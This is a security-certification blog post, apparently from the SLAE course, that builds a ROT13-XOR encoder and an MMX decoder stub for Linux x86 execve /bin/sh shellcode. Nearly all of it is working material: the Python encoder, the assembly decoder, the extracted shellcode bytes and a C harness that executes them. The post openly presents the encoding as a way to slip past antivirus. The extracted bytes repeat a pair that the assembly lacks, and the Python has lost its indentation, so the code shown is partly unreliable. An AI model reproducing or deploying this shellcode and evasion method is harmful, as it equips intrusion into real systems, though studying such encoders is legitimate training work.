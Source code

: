 ```yaml
---
layout: post
title: ROT13_XOR_ENCODER_MMX_DECODER_SHELLCODE – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 4
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

In this post I will be using one of my custom encoding schema “ROT13-XOR-Encoder” to encode execve-stack shellcode and also a decoder stub for the same using MMX instruction for shellcode execution.

REFERENCES:

* [Intel architecture manual Vol.1](https://www.intel.com/content/www/us/en/architecture-and-technology/64-ia-32-architectures-software-developer-vol-1-manual.html)
* [The MMX instruction SET](http://www.plantation-productions.com/Webster/www.artofasm.com/Linux/HTML/TheMMXInstructionSet.html)

#### WHY ENCODING FOR SHELLCODE?

During exploitation, our custom shellcode can contain bad characters or null-bytes due to which exploitation fails on the target application. In such cases, an encoding schema can be used to eliminate bad characters or null-bytes present in our shellcode.
Sometimes, encoding will also trick AV’s (Anti-Virus) into believing that your shellcode is not malicious.

In this post we will be encoding the below execve-stack shellcode:

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

___

### GENERATING AN ENCODED SHELLCODE:

The python script below represents “ROT13-XOR-Encoder” schema:

```
#!/usr/bin/python

# ROT13 - XOR Encoder

#original execve-stack
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

rot = 13

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
#ROT-13
shell_rot = (x + rot)%256

# XOR Encoding 
xor_rot = shell_rot^0xAA
encoded += '\\x'
encoded += '%02x' %xor_rot

encoded2 += '0x'
encoded2 += '%02x,' %xor_rot

print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

As noticed in the above python script, every byte in shellcode is first incremented by 13 and then we XOR that incremented value with 0xAA to get our final encoded shellcode.

Output:

![](/media/4-encode-1.jpg)

___

### DECODING THE ENCODED SHELLCODE:

To execute the encoded shellcode, a decoder stub was developed in assembly as below using MMX instruction. The advantage of using instructions like MMX,FPU,SSE and SSE2 is that, it has lesser detection rates by AV.

Lets jump into our decoder stub:

```
global _start

section .text
_start:

jmp short call_decoder

decoder1:
pop edi                        ;"edi" now points to "xor_value"
lea esi, [edi +16]             ;"esi" now points to "Shellcode"
xor ecx, ecx
mov cl, 4                      ;Size of our shellcode is 25|"qword" operates 8bytes ata time hence 4*8=32|"loop" 4 times

XOR_decode:
movq mm0, qword [edi]          ;move 8bytes of "xor_value" to mm0
movq mm1, qword [esi]          ;move 8bytes of "Shellcode" to mm1
pxor mm0, mm1                  ;Perform XOR operation
movq qword [esi], mm0          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop XOR_decode                ;loop 4 times

decoder2:
lea edi, [edi +8]              ;"edi" now points to "rot_value"
lea esi, [edi +8]              ;"esi" now points to "Shellcode"|"Shellcode" contains previous XOR'ed results
xor ecx, ecx
mov cl, 4                      ;"loop" 4 times

ROT_decode:
movq mm2, qword [edi]          ;move 8bytes of "rot_value" to mm2
movq mm3, qword [esi]          ;move 8bytes of "Shellcode" to mm3
psubb mm3, mm2                 ;Subtract 13 from "Shellcode"
movq qword [esi], mm3          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop ROT_decode                ;"loop" 4 times

jmp short Shellcode            ;Execute decoded shellcode

call_decoder:

call decoder1
xor_value: db 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa
rot_value: db 13, 13, 13, 13, 13, 13, 13, 13
;Paste your Encoded shellcode below
Shellcode: db 0x94,0x67,0xf7,0xdf,0x96,0x96,0x2a,0xdf,0xdf,0x96,0xc5,0xdc,0xd1,0x3c,0x5a,0xf7,0x3c,0x45,0xca,0x3c,0x44,0x17,0xb2,0x70,0x27
```

To decode the encoded payload we first XOR it and then subtract 13(0xd) from XOR’ed results to get final shellcode.

___

### COMPILING THE ASSEMBLY AND EXTRACTING THE SHELLCODE:

![](/media/4-encode-2.jpg)

```
objdump -d ./mmx-rot-xor-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
Output:
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27"
```

### EXECUTING THE FINAL SHELLCODE:

```
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27";

main()
{
printf("Shellcode Length: %d\n", strlen(shellcode));

int (*ret)() = (int(*)())shellcode;

ret();
}
```

Output:

![](/media/4-encode-3.jpg)

___

Exploit-DB: [https://www.exploit-db.com/exploits/45538](https://www.exploit-db.com/exploits/45538)

Link to shellcode.c: [shellcode.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/shellcode.c)

Link to shellcode.asm: [mmx-rot-xor-decoder.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/mmx-rot-xor-decoder.asm)

Thank you for reading 🙂

– Kartik Durg
